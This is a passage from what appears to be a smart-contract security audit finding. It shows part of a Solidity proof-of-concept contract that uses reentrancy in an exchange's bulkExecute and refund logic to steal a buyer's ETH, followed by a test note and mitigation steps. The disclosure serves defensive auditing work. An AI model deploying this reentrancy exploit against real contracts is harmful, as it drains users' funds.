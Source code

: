```
            lock = true;
            // first entrance when receiving fee
            uint256 feeAmount = msg.value;
            // Create empty calldata for bulkExecute and call it
            Execution[] memory executions = new Execution[](0);
            bytes memory data = abi.encodeWithSelector(Exchange.bulkExecute.selector, executions);
            address(ex).call{value: 1}(data);

            // Now we received All of buyers funds. 
            // Send stolen ETH to seller minus the amount needed in order to keep execution.
            address(_seller).call{value: address(this).balance - (_price - feeAmount)}('');

            // selfdestruct and send funds needed to Exchange (to not revert)
            selfdestruct(payable(msg.sender));
        }
        else{
            // Second entrance after steeling balance
            // We will get here after getting funds from reentrancy
        }
    }
}

```

Execute `yarn test` to see that test pass (Alice stole all 4 ETH)

## Tools Used
VS code, hardhat

## Recommended Mitigation Steps
1. Put a reentrancyGuard on `execute` and `bulkExecute` functions
2. `_refundDust` return only _remainingETH
3. revert in `bulkExecute` if parameter array is empty.
